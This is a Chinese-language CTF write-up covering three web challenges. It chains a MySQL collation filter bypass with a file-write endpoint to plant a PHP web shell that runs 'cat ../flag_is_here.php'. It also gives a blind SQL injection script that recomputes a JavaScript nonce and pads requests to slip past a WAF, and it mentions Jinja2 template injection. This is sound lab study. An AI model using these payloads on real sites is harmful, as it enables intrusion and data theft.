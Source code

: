 ##Look
KEY: mysql字符集校对规则
主页存在 /.viminfo文件，查看到入口
/5211ec9dde53ee65bb02225117fba1e1.php.backup~~~
<?php
$con = mysql_connect('localhost','root','');
mysql_query("set names utf8");
mysql_select_db("ctf");
if($_SERVER["REMOTE_ADDR"]=='8.8.8.8'){
    $name = addslashes($_GET['usern3me']);
}
else{
    if(stripos($_GET['usern3me'],'Bctf2O16')!==false){
        $name = 'FUCK';
    }
    else{
        $name = addslashes($_GET['usern3me']);
    }
}
echo 'hello '.$name;
$sql = "select * from admin where name='$name'";
$result = mysql_query($sql);
$num = mysql_num_rows($result);
if($num>0){
    echo '<br>next ***.php';
}
?>


查看源码得知需要查询name得到下一个入口，提示是stripos(usernmae,'Bctf2016')
所以知道了username是Bctf2016但是必须想办法绕过这个检测，再看字符集是utf-8，在mysql中utf-8的校对规则会将几个类似的字符都看做相同字符，这里用ç代替c, ?usern3me=Bçtf2016， 得到下一个入口
/c3368f5eb5f8367fd548b228bee69ef2.php
<?php
if(isset($_GET['path']) && isset($_GET['filename'])){
    $path = $_GET['path'];
    $name = "upload/".$_GET['filename'];
}
else{
    show_source(__FILE__);
    exit();
}
if(strpos($name,'..') > -1){
    echo 'WTF';
    exit();
}

if(strpos($path,'http://127.0.0.1/') === 0){
    file_put_contents($name,file_get_contents($path));
}
else{
    echo 'path error';
}
?>
从网站上找到一个文件让后写到upload目录中，文件名可以自定义
在这里利用之前的5211ec9dde53ee65bb02225117fba1e1.php可以把payload输出到页面，然后再访问这个页面得到shell
payload:
http://2cb3282d667144afa4bc6b81deedd3618eff30fd9f3348f3.ctf.game/c3368f5eb5f8367fd548b228bee69ef2.php?path=http%3A%2f%2f127.0.0.1%2f5211ec9dde53ee65bb02225117fba1e1.php%3Fusern3me%3D%3C%3Fphp%250a%24_REQUEST%5Ba%5D%28%24_REQUEST%5Bb%5D%29%3B%3F%3E&filename=2.php 
在访问/upload/2.php?a=system&b=cat ../flag_is_here.php即可得到flag


##manager
key: js，注入
一个登陆界面，试了下发现用 admin' and 可以出现两种状态，说明可以注入（用户名错误和密码错误）
直接写脚本盲注。然后发现post的内容还有一个_nonce验证码，并且这个验证码是js生成的，如果改动了username的内容，会得到illegal request回显，说明验证码和username有关
查看源码发现有一个login.js, 查看发现_nonce是随机生成的。。。然后懵逼了。
其实仔细分析应该发现，submit是button，this._nonce应该是button的属性，不会改变post的内容，所以应该发现_nonce是在另外的文件中改变的
$('#submit').click(function() {
    this._nonce = getnonce();
});
最后才知道./sources/bootstrap.js中定义了sign函数并且
$(document).ready(function() {
	$("#" + "f" + "r" + "m" + "l" + "o" + "g" + "i" + "n").submit(function(e) {
	    var z1 = $("#" + "u" + "s" + "e" + "r" + "n" + "a" + "m" + "e").val();
	    var z2 = $("#" + "p" + "a" + "s" + "s" + "w" + "o" + "r" + "d").val();
	    $('<' + 'i' + 'n' + 'p' + 'u' + 't' + '>').attr({
		    type: 'h' + 'i' + 'd' + 'd' + 'e' + 'n',
		    name: '_' + 'n' + 'o' + 'n' + 'c' + 'e',
		    value: sign(z1 + z2, "YTY" + "0Yj" + "M0Y" + "2Rh" + "ZTZ" + "iMj" + "liZ" + "jFj" + "OTQ" + "xOD" + "==")
		}).appendTo('#' + 'f' + 'r' + 'm' + 'l' + 'o' + 'g' + 'i' + 'n');
	});
});
用username和password sign,所以写注入的时候验证码要重新生成
r = requests.post(url=url,
                  data={'aaaa':'a'*200000,
                        "username":payload, 'password':'123', 'submit':'',
                        '_nonce' : sign.call('sign',payload + '123',"YTY" + "0Yj" + "M0Y" + "2Rh" + "ZTZ" + "iMj" + "liZ" + "jFj" + "OTQ" + "xOD" + "==")},
                  cookies=cookie)
另外一个坑就是ichunqiu的waf过滤了information_schema所以要加超长的填充过滤。。（找不到解释，可能和ichunqiu waf的实现有关），然后正常注入得到users表和p@ssw0rd 字段，这个字段查询的时候注意加反引号``因为@具有特殊含义会被当做系统变量符号


#fuzz
KEY: jinga2模板注入。
先fuzz出name参数。然后模板注入命令执行。具体操作见freebuf james的报告
